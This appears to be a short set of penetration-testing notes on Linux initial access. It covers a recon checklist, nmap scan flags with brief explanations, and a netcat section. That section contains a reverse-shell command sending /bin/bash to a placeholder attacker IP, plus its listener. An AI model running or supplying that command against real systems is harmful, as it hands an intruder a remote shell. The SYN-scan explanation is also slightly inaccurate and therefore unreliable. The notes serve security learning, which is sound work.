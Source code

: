 # linux - initial access

## recon

Look for:

* insecure services on open ports
* common protocols
* insecure version of software
* websites, login pages, ssh, databases, ftp
* scripts, misconfigured permissions, other vulns

Common things

* weak creds
* generous permissions
* vague variables

## nmap

### flags

* `-sS` - TCP syn port scan
  * we send SYN, server sends ACK or SYN/ACK, that means port is open
  * stealthy scan and very fast
  * default w/ root
* `-sT` - TCP connect port scan
  * establishes full connection then tears down connection
  * default w/out root
* `-sU` - UDP port scan
  * scans for UDP ports
* `-sA` - TCP ack port scan
  * uses packets with only ACK flag, check whether firewall is stateful or stateless
* `-sC` - default scripted scan
* `-sV` - version lookup
* `-oA` - output in all formats
* `-v` - verbose

### sample

```bash
nmap <ip-address>
```

## netcat

* `nc <attacker-ip> <port-number> -c /bin/bash`

* `nc -nvlp <port-number>`